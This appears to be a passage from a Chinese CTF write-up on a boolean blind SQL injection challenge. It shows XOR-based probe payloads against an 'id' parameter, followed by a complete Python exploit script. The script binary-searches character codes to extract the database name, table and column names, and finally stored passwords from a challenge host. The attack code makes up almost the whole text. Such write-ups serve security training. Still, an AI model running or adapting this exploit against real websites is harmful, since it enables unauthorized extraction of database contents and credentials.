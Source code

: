 ```
?id=1^((length(database()))>1)^1
//返回NO! Not this! Click others~~~
?id=1^((length(database()))>99)^1
//返回ERROR！！！
```

那么我们可以轻松地区别出bool真假页面返回信息不同

话不多说，直接上exp：

```
#by wh1sper
#bool盲注
import requests

host = 'http://368375df-ca56-4f5d-8cd4-ab07fb575003.node3.buuoj.cn/search.php?id='

def mid(bot, top):
    return (int)(0.5*(top + bot))

def sqli():
    name = ''
    for j in range(1, 250):
        top = 126
        bot = 32
        while 1:
            #select = '(ascii(substr(database(),{},1)))>{}'.format(j, mid(top, bot))#--->geek
            #查库名

            #select = "(ascii(substr((select(group_concat(table_name))
            # from(information_schema.tables)where(table_schema='geek')),{},1)))>{}"
            # .format(j, mid(top, bot))#--->F1naI1y,Flaaaaag
            #查表名

            #select = "(ascii(substr((select(group_concat(column_name))
            # from(information_schema.columns)where(table_name='Flaaaaag')),{},1)))>{}"
            # .format(j, mid(top, bot))#--->id,fl4gawsl
            #查列名
            
            select = "(ascii(substr((select(group_concat(password))" \
                     "from(F1naI1y)),{},1))>{})".format(j, mid(top, bot))

            playload = "1^("+select+")^1"
            #print(playload)
            r = requests.get(url=host+playload)
            #print(r.text)
            if 'NO!' in r.text:  # 成功
                if top - 1 == bot:      # top和bot相邻，说明name是top
                    name += chr(top)
                    print(name)
                    break
                bot = mid(bot, top)  # 成功就上移bot
            else:               # 失败
                if top - 1 == bot:      # top和bot相邻，加上失败，说明name是bot
                    name += chr(bot)
                    print(name)
                    break
                top = mid(bot, top)  # 失败就下移top


if __name__ == '__main__':
    sqli()
```
